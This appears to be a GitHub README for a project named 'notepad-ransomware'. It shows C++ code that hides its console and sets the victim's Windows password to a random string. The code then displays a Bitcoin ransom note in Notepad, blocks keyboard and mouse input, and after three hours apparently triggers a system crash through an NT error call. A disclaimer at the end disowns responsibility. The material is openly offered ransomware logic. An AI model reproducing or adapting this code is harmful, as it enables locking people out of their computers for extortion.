 ##### notepad-ransomware
<hr>

```cpp
string user_name = g_utils.get_user_name(); // getting user name

g_utils.rename_builder(); // renaming builder to random chars
g_win32.show_window(g_win32.get_console_window(), 0); // hide console
g_utils.set_password_windows(user_name, g_utils.random_string(25)); // setting random password of victim windows
g_utils.show_notepad(user_name, "your btc here"); // show readme using notepad.exe
g_win32.block_input(1); // blocking use mouse and keyboard
g_win32.sleeping_mode(10800000); // Sleep() in 3 hrs
g_nt.jmp_raise(19, ((DWORD)0xC00002B4L)); // call nt
```

##### Demostration
<hr>

![d](https://github.com/carterjwasd/notepad-ransomware/blob/main/demo.jpg)

#### Warning message
Use it at your own risk. <br>
The author is not responsible for your actions in using this is.
